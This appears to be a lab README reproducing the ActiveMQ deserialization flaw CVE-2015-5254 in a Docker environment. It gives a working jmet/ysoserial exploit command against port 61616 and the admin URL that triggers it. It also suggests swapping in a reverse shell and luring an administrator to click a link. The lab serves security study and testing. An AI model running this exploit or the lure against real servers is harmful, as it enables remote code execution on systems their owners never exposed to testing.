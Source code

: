# ActiveMQ Deserialization Vulnerability (CVE-2015-5254)

[中文版本(Chinese version)](README.zh-cn.md)

Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.

Apache ActiveMQ version 5.x before the 5.13.0 security vulnerability, the vulnerability caused by the program does not limit the classes that can be serialized in the proxy. Remote attacker can make a special serialized Java Message Service (JMS) ObjectMessage objects exploit this vulnerability to execute arbitrary code.

Reference Links:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## Vulnerability environment

Start the vulnerable environment:

```
docker-compose up -d
``` 

After running the environment, it will establish two ports on port 61616 and 8161. Port 61616 is the working port, and messages are delivered on this port. Port 8161 is the webpage management page port. Access ` http://your-Ip:8161`, You can see the network management page, but this vulnerability does not require a network theoretically.

## Exploit

The exploit process is as follows:

1. Generate serialized payload (u can using ysoserial)
2. send payload to port 61616
3. Access the web management page and read the serialization messages, then u can trigger vulnerability.

To exploit this environment we will use [jmet](https://github.com/matthiaskaiser/jmet) (Java Message Exploitation Tool). First download the jar file of jmet, and create folder called **external** in the same directory (otherwise it may occur the error that the folder does not exist).

the jmet is to use ysoserial to generate Payload and send it (the jar comes with ysoserial, we don't no need to download it again), so we need to choose one that can be used in ysoserial as the gadget, such as ROME.

Execute:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
``` 

![](1.png)

At this point, a queue named event will be added to the target ActiveMQ. We can visit `http://your-ip:8161/admin/browse.jsp?JMSDestination=Event` to see all messages in this queue:

![](2.png)

Click this message to trigger the command execute, this time into the container `docker-compose exec activemq bash`, we can see /tmp/success has been successfully created, indicating exploit successful:

![](3.png)

Replace the command with a reverse shell statement and reuse it:

![](4.png)

It's worth noting that accessing messages through the web administration page and triggering the vulnerability requires administrator privileges. In the absence of password, we can induce administrator visit our link to trigger, or disguised as legitimate messages from other services need to wait for client access when triggered.
